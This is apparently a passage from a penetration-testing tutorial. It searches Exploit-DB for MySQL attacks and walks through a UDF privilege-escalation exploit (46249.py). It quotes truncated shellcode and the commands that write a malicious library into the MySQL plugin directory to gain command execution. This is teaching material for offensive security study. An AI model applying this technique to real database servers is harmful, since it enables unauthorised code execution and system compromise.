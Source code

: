 ```
...
-------------------------------------- -----------------------------------------------
 Paper Title                          |  Path (/usr/share/exploitdb-papers
-------------------------------------- -----------------------------------------------
...
MySQL Session Hijacking over RFI      | docs/english/13708-mysql-session-hijacking-ove
MySQL UDF Exploitation                | docs/english/44139-mysql-udf-exploitation.pdf
MySQL: Secure Web Apps - SQL Injectio | papers/english/12945-mysql-secure-web-apps---s
Novel contributions to the field - Ho | docs/english/40143-novel-contributions-to-the-
...
----------------------------------------------------------- --------------------------
```

When searching for MySQL vulnerabilities, we have to change our approach a bit. This time we are not looking for an exact version number that might be vulnerable to an exploit since MariaDB and MySQL use different version numbers. Instead, we are trying to see if we can identify a pattern in publicly disclosed exploits that may indicate a type of attack we could use.

We notice that the words "UDF" and "User Defined" show up often. Let's take a look at a more recent UDF exploit found in /usr/share/exploitdb/exploits/linux/local/46249.py.

```
1  # Exploit Title: MySQL User-Defined (Linux) x32 / x86_64 sys_exec function local privilege escalation exploit
2  # Date: 24/01/2019
3 ...
19  References:
20  https://dev.mysql.com/doc/refman/5.5/en/create-function-udf.html
21  https://www.exploit-db.com/exploits/1518
22  https://www.exploit-db.com/papers/44139/ - MySQL UDF Exploitation by Osanda Malith Jayathissa (@OsandaMalith)
```

The exploit begins by referencing other research into UDF exploitation including a paper written on the subject.

Reviewing this paper teaches us that a User Defined Function (UDF) is similar to a custom plugin for MySQL. It allows database administrators to create custom repeatable functions to accomplish specific objectives. Conveniently for us, UDFs are written in C or C++ and can run almost any code we want, including system commands.

Researchers have discovered how to use standard MySQL (and MariaDB) functionality to create these plugins in ways that can be used to exploit systems. This specific exploit discusses using UDFs as ways to escalate privileges on a host. However, we should be able to use the same principle to get an initial shell. Some modifications will be required but before we start changing anything, let's take a look at the code.

```
40  shellcode_x32 = "7f454c4601010100000000000000000...";
41  shellcode_x64 = "7f454c4602010100000000000000000...";
42
43  shellcode = shellcode_x32
44  if (platform.architecture()[0] == '64bit'):
45   shellcode = shellcode_x64
...
71  cmd='mysql -u root -p\'' + password + '\' -e "select @@plugin_dir \G"'
72  plugin_str = subprocess.check_output(cmd, shell=True)
73  plugin_dir = re.search('@plugin_dir: (\S*)', plugin_str)
74  res = bool(plugin_dir)
...
91  print "Trying to create a udf library...";
92  os.system('mysql -u root -p\'' + password + '\' -e "select binary 0x' + shellcode + ' into dumpfile \'%s\' \G"' % udf_outfile)
93  res = os.path.isfile(udf_outfile)
...
99  print "UDF library crated successfully: %s" % udf_outfile;
100  print "Trying to create sys_exec..."
```